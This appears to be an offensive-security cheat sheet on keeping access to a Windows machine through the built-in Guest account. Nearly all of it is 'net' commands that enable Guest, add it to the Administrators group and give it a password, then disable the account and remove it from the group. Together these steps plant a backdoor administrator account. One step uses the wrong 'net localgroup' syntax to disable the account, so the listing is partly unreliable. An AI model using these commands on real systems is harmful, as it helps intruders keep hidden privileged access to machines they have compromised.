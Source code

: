 # Guest Windows Account Persistence

* Win10 Guest user account is not supported
* If it is not present you can add the account
* If it is, you will need to enable it

```
net user Guest
```

* Now activate it

```
net user Guest /ACTIVE:yes
```

* Add it to the Admins group

```
net localgroup Administrators Guest /add 
```

* Set a password for the now enabled Admin Guest account

```
net user Guest <password>
```

* Disable the Guest Account

```
net localgroup Guest /ACTIVE:no 
```

* Remove from the Administrators group

```
net localgroup Administrators Guest /delete 
```
